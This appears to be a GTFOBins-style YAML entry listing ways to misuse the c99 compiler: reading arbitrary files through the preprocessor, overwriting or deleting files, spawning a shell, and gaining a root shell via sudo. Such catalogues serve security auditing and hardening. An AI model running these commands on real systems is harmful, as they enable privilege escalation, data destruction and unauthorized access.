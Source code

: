   file-read:
    - code: |
        LFILE=file_to_read
        c99 -x c -E "$LFILE"
  file-write:  # XXX this should be file-delete
    - code: |
        LFILE=file_to_delete
        c99 -xc /dev/null -o $LFILE
  shell:
    - code: c99 -wrapper /bin/sh,-s .
  sudo:
    - code: sudo c99 -wrapper /bin/sh,-s .
---
